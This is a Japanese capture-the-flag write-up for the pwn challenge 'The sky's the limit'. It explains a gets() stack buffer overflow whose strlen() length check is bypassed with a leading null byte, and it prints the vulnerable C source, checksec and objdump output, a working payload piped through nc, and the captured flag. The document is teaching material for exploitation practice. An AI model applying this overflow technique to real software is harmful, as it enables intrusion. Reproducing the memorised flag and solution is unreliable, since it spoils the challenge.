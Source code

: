# The sky's the limit:Pwn:28.72pts
あまりにも長い入力は危険らしいので弾くようにしました！  
`nc the_skys_the_limit.web.cpctf.space 30007`  

[配布ファイル](the_skys_the_limit.zip)  

**Hint1**  
脆弱性があるのは28行目のgets関数です。  
**Hint2**  
gets関数でbufよりも大きい文字列を入力できるため、stack buffer overflow の脆弱性があります。  
上手くwin関数に処理を飛ばしましょう。  
また、strlenでの文字列チェックに引っかからないようにするため、文字列の区切りとなるようなものを入力する文字列に仕込みましょう。  
stack alignment に注意してください。  
**Hint3 (解法)**  
'\x00'などを入力すると、そこが文字列の終端であるとみなされるため文字列長をごまかすことができます。  
これを踏まえてstack buffer over flow をしていきましょう。  
'\x00'を24文字、ret命令、win関数のアドレスの順に入力すればうまくいきそうです。  
`echo -e "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x13\x13\x40\x00\x00\x00\x00\x00\x89\x12\x40\x00\x00\x00\x00\x00"`
これをパイプなどで入力しましょう。  

# Solution
接続先とソースが配布される。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 16

int init(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
	alarm(60);

	return 0;
}

int win() {
	system("cat flag.txt");

	return 0;
}

int main() {
	init();

	char buf[BUF_SIZE];

	printf("input:");
	gets(buf);

	if(strlen(buf) > BUF_SIZE) {
		printf("Too long.\n");
		exit(0);
	}

	return 0;
}
```
`gets`で自明なBOFがある。  
ただし`strlen`で入力を検証しており、16バイトより大きいと`Too long.`と怒られる。  
以下のようにセキュリティ機構をチェックする。  
```bash
$ checksec --file=./chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   46 Symbols        No    0               2               ./chall
```
Canaryは無いようだ。  
ここで`strlen`がヌルバイトまでの長さを見るのに対し、`gets`はヌルバイトを受け付けることに気づく。  
つまり、入力の16バイト以内にヌルバイトが存在する場合、`strlen`のチェックを常に通る。  
パディングの先頭にヌルバイトを付加して、ROPしてやればよい。  
スタックアラインメントの調整のためretを挟んで、winに飛ばしてやる。  
```bash
$ objdump -D ./chall | grep win -A 9
0000000000401289 <win>:
  401289:       f3 0f 1e fa             endbr64
  40128d:       55                      push   %rbp
  40128e:       48 89 e5                mov    %rsp,%rbp
  401291:       48 8d 05 6c 0d 00 00    lea    0xd6c(%rip),%rax        # 402004 <_IO_stdin_used+0x4>
  401298:       48 89 c7                mov    %rax,%rdi
  40129b:       e8 30 fe ff ff          call   4010d0 <system@plt>
  4012a0:       b8 00 00 00 00          mov    $0x0,%eax
  4012a5:       5d                      pop    %rbp
  4012a6:       c3                      ret
$ echo -e "\x00AAAAAAAAAAAAAAAAAAAAAAA\xa6\x12\x40\x00\x00\x00\x00\x00\x89\x12\x40\x00\x00\x00\x00\x00" | nc the_skys_the_limit.web.cpctf.space 30007
input:CPCTF{Nu11_s7rin6_m4De_y0u_fr3E}Segmentation fault (core dumped)
```
flagが得られた。  

## CPCTF{Nu11_s7rin6_m4De_y0u_fr3E}